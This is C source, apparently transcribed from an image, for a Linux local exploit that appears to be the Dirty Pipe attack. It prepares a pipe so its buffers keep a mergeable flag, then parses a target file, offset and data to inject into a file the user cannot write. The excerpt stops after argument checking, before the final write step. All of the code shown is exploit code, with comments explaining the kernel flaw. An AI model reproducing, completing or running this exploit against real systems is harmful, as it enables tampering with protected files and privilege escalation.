 ```c

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}

int main(int argc, char **argv)
{
	if (argc != 4) {
		fprintf(stderr, "Usage: %s TARGETFILE OFFSET DATA\n", argv[0]);
		return EXIT_FAILURE;
	}

	/* dumb command-line argument parser */
	const char *const path = argv[1];
	loff_t offset = strtoul(argv[2], NULL, 0);
	const char *const data = argv[3];
	const size_t data_size = strlen(data);

	if (offset % PAGE_SIZE == 0) {
		fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
		return EXIT_FAILURE;
	}
```